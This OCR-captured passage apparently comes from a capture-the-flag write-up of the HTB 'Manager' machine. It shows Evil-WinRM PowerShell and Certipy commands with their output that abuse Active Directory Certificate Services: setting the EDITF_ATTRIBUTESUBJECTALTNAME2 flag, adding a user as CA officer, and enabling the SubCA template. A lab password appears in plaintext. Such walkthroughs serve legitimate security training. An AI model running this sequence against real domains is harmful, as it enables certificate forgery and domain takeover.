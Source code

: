 ```
Notice Above that the EDITF_ATTRIBUTESUBJECTALTNAME2 is not present. 
=================================================================================================================
*Evil-WinRM* PS C:\Users\Raven\Documents> Import-Module PSPKI        # Luckly the PSPKI Module was present on the Target System
*Evil-WinRM* PS C:\Users\Raven\Documents> $ConfigReader = New-Object SysadminsLV.PKI.Dcom.Implementations.CertSrvRegManagerD "dc01.manager.htb"
*Evil-WinRM* PS C:\Users\Raven\Documents> $ConfigReader.SetRootNode($true)
*Evil-WinRM* PS C:\Users\Raven\Documents> $ConfigReader.GetConfigEntry("EditFlags","PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
1114446
*Evil-WinRM* PS C:\Users\Raven\Documents> $ConfigReader.SetConfigEntry(1376590, "EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
*Evil-WinRM* PS C:\Users\Raven\Documents> certutil -config "dc01.manager.htb\manager-DC01-CA" -getreg "policy\EditFlags"
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\manager-DC01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\EditFlags:

  EditFlags REG_DWORD = 15014e (1376590)
    EDITF_REQUESTEXTENSIONLIST -- 2
    EDITF_DISABLEEXTENSIONLIST -- 4
    EDITF_ADDOLDKEYUSAGE -- 8
    EDITF_BASICCONSTRAINTSCRITICAL -- 40 (64)
    EDITF_ENABLEAKIKEYID -- 100 (256)
    EDITF_ENABLEDEFAULTSMIME -- 10000 (65536)
    EDITF_ATTRIBUTESUBJECTALTNAME2 -- 40000 (262144)
    EDITF_ENABLECHASECLIENTDC -- 100000 (1048576)
CertUtil: -getreg command completed successfully.
=================================================================================================================
Now the EDITF_ATTRIBUTESUBJECTALTNAME2 -- 40000 (262144) 
=================================================================================================================
```
###### `Adding Manage Certificate Permission to Raven`
```
# certipy ca -ca 'manager-DC01-CA' -u 'raven@dc01.manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -target dc01.manager.htb -add-officer Raven        
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```
###### `Enabling SubCA Template`
```
# certipy ca -ca 'manager-DC01-CA' -u 'raven@dc01.manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236  -enable-template SubCA
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'manager-DC01-CA'
```
